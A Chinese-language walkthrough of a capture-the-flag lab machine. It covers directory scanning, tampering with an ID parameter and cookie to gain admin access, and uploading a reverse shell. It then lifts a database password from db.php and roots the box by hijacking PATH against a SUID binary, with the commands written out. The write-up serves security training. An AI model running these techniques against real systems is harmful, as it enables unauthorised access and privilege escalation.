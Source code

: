gobuster扫描：
```
/images               (Status: 301) [Size: 313] [--> http://10.129.48.18/images/]
/themes               (Status: 301) [Size: 313] [--> http://10.129.48.18/themes/]
/uploads              (Status: 301) [Size: 314] [--> http://10.129.48.18/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.129.48.18/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.129.48.18/js/]
/fonts                (Status: 301) [Size: 312] [--> http://10.129.48.18/fonts/]

```

直接访问IP，检查源代码，发现页面/cdn-cgi/login/，可以以guest身份进入，有一个account的界面，此时url是http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=2，id=2可以改为1，可以拿到：
```
34322 admin admin@megacorp.com
2233  guest	guest@megacorp.com
```
检查cookie可以看到前两个值可以对应，可以把2233改为34322，把guest改为admin，然后就是管理员权限，访问uploads界面，把准备好的反shell文件上传，访问http://IP/uploads/shellfiles，nc监听就可以拿到webshell。

在/var/www/html/cdn-cgi文件夹里有db.php的文件可以拿到用户robert的凭据，(webshell就可以拿到user.txt)，

db.php的内容
```
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

可以通过ssh登录robert：
```
ssh robert@IP
```
ssh进入后拿到user.txt，通过find命令查找suid文件(其实是通过题目提醒)，找到可以以root权限执行的可执行文件/usr/bin/bugtracker。

我拿到root.txt的方法：
通过strings bugtracker的命令可以看到这个可执行文件运行cat命令，而且位置在/root/reports，所以可以直接在输入框输入../root.txt拿到flag。

官方的方法：
通过在/tmp文件夹下创建一个名为cat的文件然后将/bin/sh输入：
```
echo "/bin/sh" > cat
```
然后给cat执行权限：
```
chmod u+x cat
```
然后再环境变量添加/tmp，让位于/usr/bin下的bugtracker识别:
```
export PATH=/tmp:$PATH
```
然后运行bugtracker，随便输入几个字符，激活我们创建的cat，就拿到root权限了，然后可以读到root.txt(此时cat已经不能用了，被替换了，可以使用tac读取root.txt)


### 使用什么样的工具可以拦截网络流量？
答案:proxy
